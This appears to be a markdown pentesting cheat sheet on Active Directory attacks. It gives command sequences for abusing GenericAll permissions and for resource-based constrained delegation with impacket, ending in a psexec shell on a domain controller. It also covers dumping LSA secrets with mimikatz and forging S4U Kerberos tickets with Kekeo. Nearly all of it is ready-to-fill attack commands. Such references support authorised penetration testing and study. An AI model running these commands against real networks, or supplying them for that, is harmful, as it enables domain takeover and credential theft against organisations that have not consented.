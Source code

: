 [GenericAll on user](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericall-on-user)
1. `. .\PowerView.ps1`
2. `Get-ObjectAcl -SamAccountName <username> | ? {$_.ActiveDirectoryRights -eq "GenericAll"}`
3. See GenericAll also in other ways and for groups

[GenericAll on group](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericall-on-group)
1. `Get-NetGroup "<group_name>"`
2. `Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "<group_dn>"}` 
3. `net group "<group_name>" <username> /add /domain`

Scenario: you can't access a shell with found credentials
1. run `bloodhound.py`
2. if you've found a GenericAll to a group that can PSremote, run the following command from 'ldeep' https://github.com/franc-pentest/ldeep
   - `ldeep ldap -u <username> -p '<password>' -d <domain_name> -s ldap://<domain_controller> add_to_group "<user_dn>" "<group_dn>"`



### Kerberos Delegation

Resourced Based Constrained Delegation attack
- Requirement: GenericAll on system
1. `impacket-addcomputer <domain>/<username> -dc-ip <dc_ip> -hashes <ntlm_hashes> -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'`
2. `python3 /path/to/rbcd.py -dc-ip <dc_ip> -t <target_dc> -f 'ATTACK' -hashes <ntlm_hashes> <domain>\\<username>`
3. `impacket-getST -spn cifs/<target_dc_fqdn> <domain>/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip <dc_ip>`
4. `export KRB5CCNAME=./Administrator.ccache`
5. `sudo echo '<target_dc_ip> <target_dc_fqdn>' >> /etc/hosts`
6. `impacket-psexec -k -no-pass <target_dc_fqdn> -dc-ip <dc_ip>`

Another way to do it
1. Enumerate available delegations
   - `Import-Module C:\Path\to\PowerView.ps1`
   - `Get-NetUser -TrustedToAuth`
2. Get Administrator role, dump secrets to get passwords for target account
   - `token::elevate`
   - `lsadump::secrets`
3. Exit mimikatz > enter Kekeo
4. Generate a TGT to generate tickets for HTTP and WSMAN services
   - `tgt::ask /user:<svcIIS_user> /domain:<domain_name> /password:<svcIIS_password>`
5. Forge TGS requests for the account we want to impersonate (for HTTP and WSMAN)
   - `tgs::s4u /tgt:TGT_<svcIIS_user>@<DOMAIN>_krbtgt~<domain_name>@<DOMAIN>.kirbi /user:<target_user> /service:http/<target_machine>`
   - `tgs::s4u /tgt:TGT_<svcIIS_user>@<DOMAIN>_krbtgt~<domain_name>@<DOMAIN>.kirbi /user:<target_user> /service:wsman/<target_machine>`
6. Exit Kekeo > Open Mimikatz to import the TGS tickets
   - `privilege::debug`
   - `kerberos::ptt TGS_<target_user>@<DOMAIN>_wsman~<target_machine>@<DOMAIN>.kirbi`
   - `kerberos::ptt TGS_<target_user>@<DOMAIN>_http~<target_machine>@<DOMAIN>.kirbi`
7. Exit mimikatz, run `klist` to verify that everything went fine
8. `New-PSSession -ComputerName <target_machine>`
9. `Enter-PSSession -ComputerName <target_machine>`
10. `whoami`
